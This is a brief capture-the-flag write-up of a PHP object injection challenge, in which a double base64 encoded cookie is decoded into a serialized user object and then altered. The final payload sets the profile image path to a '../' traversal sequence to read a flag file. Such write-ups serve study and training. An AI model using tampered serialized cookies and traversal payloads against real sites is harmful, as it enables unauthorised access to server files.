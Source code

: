 # jack of hearts

> Solved By : thewhiteh4t

```
Port : 20022
```

- User cookie is double base64 encoded, so we double decoded and ended up with the following :

```
O:4:"user":3:{s:8:"username";s:4:"user";s:5:"admin";b:0;s:11:"profile_img";s:23:"/var/www/html/guest.png";}
```

```
O   -> Object
O:4 -> Object of length 4
:3: -> Object has 3 attributes
s   -> String data type
s:8 -> String of length 8
b   -> Boolean data type
b:0 -> False
```

- This was a **PHP Object Injection** challenge
- The goal of this challenge was not to become admin and if we try then the server sends hints or funny responses
- Directly accessing the flag did not work so we can simply use `../`
- Final payload :

```
O:4:"user":3:{s:8:"username";s:4:"user";s:5:"admin";b:0;s:11:"profile_img";s:40:"/var/www/html/../../../../../../flag.png";}
```

![](https://i.imgur.com/JGNO34j.png)